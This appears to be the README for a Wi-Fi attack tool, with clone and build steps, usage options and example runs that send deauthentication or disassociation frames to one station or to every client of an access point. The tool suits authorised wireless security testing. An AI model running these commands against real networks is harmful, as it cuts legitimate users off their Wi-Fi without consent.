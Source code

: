 # Deauth/Disas Attack (Python3)

2022/08/30(verifsec@gmail.com)

## Installation

```
# git clone https://github.com/verifsec/deauth-attack.git
# cd ./deauth-attack
# make
```

## Usage

```
# deauth-attack -h
Deauth/Disas Attack 1.03 by <verifsec@gmail.com>

usage: deauth-attack [-h] -i IFACE -b BSSID [-t TARGET] -m MODE

optional arguments:
  -h, --help            show this help message and exit
  -i IFACE, --iface IFACE
                        802.11 iface
  -b BSSID, --bssid BSSID
                        APUT MAC Address
  -t TARGET, --target TARGET
                        STAUT MAC Address
  -m MODE, --mode MODE  "disas" or "deauth"
```

## Example

### Safety

```
# deauth-attack -i wlan0mon -b 00:23:69:XX:XX:XX -m disas -t 34:97:f6:YY:YY:YY
Deauth/Disas Attack 1.02a by <verifsec@gmail.com>

[+] Starting now ...
[|] Sending the disas flame from 00:23:69:XX:XX:XX to 34:97:f6:YY:YY:YY
[+] Finish. Hopefully it's nothing.
```

### Unsafety

```
# deauth-attack -i wlan0mon -b 00:23:69:XX:XX:XX -m disas
Deauth/Disas Attack 1.02a by <verifsec@gmail.com>

[+] Starting now ...
[|] Sending the disas flame from 00:23:69:XX:XX:XX to ff:ff:ff:ff:ff:ff
[+] Finish. Hopefully it's nothing.
```

## License
This software includes the work that is distributed in the Apache License 2.0.

## Remark
Don't Abuse.
